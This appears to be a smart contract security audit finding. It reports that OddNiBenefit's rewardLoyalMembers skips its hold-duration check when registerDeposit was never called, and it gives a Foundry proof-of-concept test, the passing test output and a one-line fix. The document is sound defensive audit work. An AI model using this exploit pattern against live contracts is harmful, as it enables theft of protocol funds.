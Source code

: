 # [H-03] User can bypass `OddNiBenefit::rewardLoyalMembers` check for `MINIMUM_HOLD_DURATION` by not calling `registerDeposit` beforehand

## Summary

user call `rewardLoyalMembers` without calling `registerDeposit` beforehand, the user can bypass the check for `MINIMUM_HOLD_DURATION`.

this because the check `block.timestamp >= depositTimestamps[msg.sender] + MINIMUM_HOLD_DURATION` always true if `depositTimestamps[msg.sender]` is unitialized.

## Vulnerability Details

this vulnerability can happen because the user supposed to call `registerDeposit` before calling `rewardLoyalMembers` but there are no way to enforce this.

if user call `rewardLoyalMembers` without calling `registerDeposit` beforehand, the `depositTimestamps[msg.sender]` will be uninitialized and the check `block.timestamp >= depositTimestamps[msg.sender] + MINIMUM_HOLD_DURATION` will always true.

add the following code to `OddniOverall.t.sol` :

```js
    function test_PoC_bypassHoldingTimestamps() public {
        // first set the timestamp to current time. eg 4 jan 2025: 1735996788
        vm.warp(1735996788);

        vm.startPrank(tester);
        vm.deal(tester, 10 ether);

        OBA.registerAsMember();

        OBA.depositAsset{value: MINIMUM_DEPOSIT}();

        uint256 initialBalance = tester.balance;
        OBE.rewardLoyalMembers();
        uint256 finalBalance = tester.balance;

        // check if the reward is received by checking if finalBalance is greater than initialBalance
        assert(finalBalance > initialBalance);
        vm.stopPrank();
    }
```

and run the following command `forge test --mt test_PoC_bypassHoldingTimestamps`

the result should PASS:

```bash
Ran 1 test for test/OddniOverall.t.sol:OddNiOverallTest
[PASS] test_PoC_bypassHoldingTimestamps() (gas: 105127)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 573.32µs (65.45µs CPU time)

Ran 1 test suite in 4.59ms (573.32µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

user can bypass the check for `MINIMUM_HOLD_DURATION` by not calling `registerDeposit` beforehand.
this would lead to loss of fund of the protocol.

## Tools Used

foundry

## Recommendations

enforce the user to initialize the `depositTimestamps` before calling `rewardLoyalMembers` by adding :

```diff
diff --git a/src/OddNiBenefit.sol b/src/OddNiBenefit.sol
index 1dcfda8..c4880a2 100644
--- a/src/OddNiBenefit.sol
+++ b/src/OddNiBenefit.sol

@@ -38,14 +39,17 @@ contract OddNiBenefit {
     }

     // Reward loyal members who held the deposit for at least MINIMUM_HOLD_DURATION
     function rewardLoyalMembers() external {
         require(OBE.getMemberStatus(msg.sender), "Not a member of OddNiBank");
+        require(depositTimestamps[msg.sender] > 0, "Deposit timestamp not registered");
         require(block.timestamp >= depositTimestamps[msg.sender] + MINIMUM_HOLD_DURATION, "Holding period not met");
         require(address(this).balance >= LOYALTY_REWARD, "Insufficient contract balance");
         require(OBE.reentrancyLock() == false, "The Bank is currently under lockdown!");
         // Reset the timestamp before making the transfer to prevent reentrancy
         depositTimestamps[msg.sender] = block.timestamp;

         (bool sent, ) = msg.sender.call{value: LOYALTY_REWARD, gas: 2300}(""); // Limit gas to 2300
         require(sent, "Reward transfer failed");
     }

```
